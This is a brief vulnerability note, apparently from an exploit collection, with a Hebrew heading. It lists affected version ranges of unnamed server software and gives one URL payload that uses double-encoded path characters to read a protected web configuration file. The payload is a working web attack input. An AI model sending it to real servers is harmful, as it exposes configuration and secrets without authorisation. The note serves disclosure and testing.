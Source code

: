 <languages />

גרסה מושפעת
-----------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml
